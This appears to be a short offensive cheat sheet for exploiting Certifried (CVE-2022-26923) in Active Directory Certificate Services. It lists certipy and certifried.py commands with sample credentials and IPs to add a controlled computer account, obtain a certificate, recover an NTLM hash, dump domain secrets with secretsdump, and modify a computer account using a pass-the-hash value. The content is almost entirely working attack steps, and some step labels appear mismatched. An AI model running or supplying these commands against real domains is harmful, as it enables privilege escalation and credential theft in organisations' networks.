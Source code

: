 # Certifried CVE-2022-26923

### An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

## Enumeration

 - certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'

### If Certipy doesn't print Certificate object SID is [...] after obtaining the certificate, then the attack can be conducted.

## Exploitation

#### 1) Request certificate manually

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 (Add the computer and update necessary attributes)

#### 2) Recover NTLM Hash

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap (Request the certificate manually)

### Proceed with secretsdump

#### 3) After obtaining the NTLM hash, proceed with dumping secrets

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump

#### 4) Modify computer account

 - python3 modify_computer.py range.net/ws01\$@192.168.86.182 -hashes :0e3ae07798e1bc9e02b049a795a7e69f (In case you obtain a machine account hash, modify the computer account.)
